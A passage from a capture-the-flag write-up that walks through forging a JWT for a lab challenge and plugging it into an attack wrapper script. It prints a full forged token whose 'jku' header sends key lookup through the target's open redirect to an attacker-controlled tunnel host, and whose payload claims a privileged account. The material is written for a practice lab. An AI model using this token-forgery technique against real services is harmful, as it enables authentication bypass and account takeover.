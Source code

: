 Step 9: Send the request and observe the response. If it looks like the below screenshot then it worked successfully.

![Successful Forge](/writeups/HTBUniCTF/images/successfulForge.PNG)

Step 10: Copy the forged JWT token as we will need it for the modification of the wrapper script.

# Performing the full attack using the wrapper script

Forged Token (This token will not work for you, follow the above steps to get your own)
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6IjkxNmVjZmQ4LTg5NmYtNDVlZS1iNGZkLTVkMmQ5NzIxMzU1MCIsImprdSI6Imh0dHA6Ly8xMjcuMC4wLjE6MTMzNy9hcGkvYW5hbHl0aWNzL3JlZGlyZWN0P3JlZj1jdGEtYW5ub3VuY2VtZW50JnVybD1odHRwOi8vMWQzZjYzOWNiOTI3YmYubGhyLmxpZmUvandrcy5qc29uIn0.eyJlbWFpbCI6ImZpbmFuY2lhbC1jb250cm9sbGVyQGZyb250aWVyLWJvYXJkLmh0YiIsImlhdCI6MTczNDUzNzUwNn0.Kh7I_hQSLHCpBwnacSVxcupglLKb5hh6Ni-B7nrZMUg7RTghltifoVkmz_r288_zTlsEsqjO6kkvamxouUv-EP8ddIHQc1iS0U1Txsi1DWefa6nBc02INQCJg1uZJhSnMjcffbGDt_C-NT_2mcSvA8DKHGy-MLdX-r-NPredhIyhBWalt7a95rV4HmT3WTPOFxyyTzJxKuE5s5aCI6DBPlvgh1IMESdcPIjj-ULngybNFoHUeT0YRg1qg8IifHHIbP8n9UyNdZz742YXn_SQYuzfx_5QoIJ0avrOedD93CXNR4YRXGTuhwtXN2I_IRHlkyv-2wqB4lBTjluCw4RFsg
```

First thing we need to do is change the target host from localhost to the actual docker IP

![Target Host](/writeups/HTBUniCTF/images/wrapperhost.PNG)

Next we need to get the forged token into the program. You could have the function return the forged token however I just set the variable directly.

![Forged Token](/writeups/HTBUniCTF/images/forgedToken.PNG)
